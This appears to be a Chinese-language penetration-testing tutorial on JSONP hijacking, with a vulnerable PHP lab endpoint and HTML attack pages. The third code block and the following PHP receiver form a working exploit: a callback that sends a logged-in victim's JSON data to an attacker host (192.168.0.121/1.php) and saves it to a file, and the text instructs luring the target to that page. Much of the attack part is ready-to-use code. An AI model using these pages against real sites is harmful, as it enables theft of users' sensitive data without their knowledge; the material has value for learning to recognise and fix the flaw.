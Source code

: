 JSON是一种轻量级的数据交换格式，而劫持就是对数据进行窃取（或者应该称为打劫、拦截比较合适。恶意攻击者通过某些特

定的手段，将本应该返回给用户的JSON数据进行拦截，转而将数据发送回给恶

意攻击者，这就是JSON劫持的大概含义。一般来说进行劫持的JSON数据都是

包含敏感信息或者有价值的数据。

攻击方法与csrf类似，都是需要用户登录帐号，身份认证还没有被消除的情况下访问攻击者精心设计好的的页面。就会获取json数据，把json数据发送给攻击者。

**1、测试流程与方法**

找到json的类型页面，写好攻击页面，诱导目标访问页面，从而获取数据。

靶机测试

```php
<?php
header('Content-type: application/json');
$callback = $_GET['callback'];
print $callback.'({"id" : "1","name" : "moonsec","email":"moon@moonsec.com"});';
?>
```

**2、测试页面html**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>jsonp劫持</title>
    <script src="http://apps.bdimg.com/libs/jquery/1.10.2/jquery.min.js"></script>
</head>
<body>
<script>function jsonp2(data){alert(JSON.stringify(data));}</script>
<script src="http://www.webtester.com/json.php?callback=jsonp2"></script>
</body>
</html>
```

![img](../acess/wpsdsdss1.jpg) 

**3、劫持json发送返回数据**

```php+HTML
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8">
		<title></title>
		<script src="http://apps.bdimg.com/libs/jquery/1.10.2/jquery.min.js"></script>
<script>
function test(data){
    //alert(v.name);
    var xmlhttp = new XMLHttpRequest();
    var url = "http://192.168.0.121/1.php?file=" + JSON.stringify(data);
    xmlhttp.open("GET",url,true);
    xmlhttp.send();
    }
</script>
<script src="http://www.webtester.com/json.php?callback=test"></script>
</head>
	<body>
	</body>
</html>
```

远程接收的php

```php
<?php
if($_GET['file']){
	file_put_contents('json.txt',$_GET['file'])
}
?>
```

诱导目标访问带有攻击代码的页面。

当用户访问这个页面的时候就会把数据发送到远程的服务器上的1.PHP 1.php就会把得到的数据生成json.txt 

![img](../acess/ghghfg.jpg) 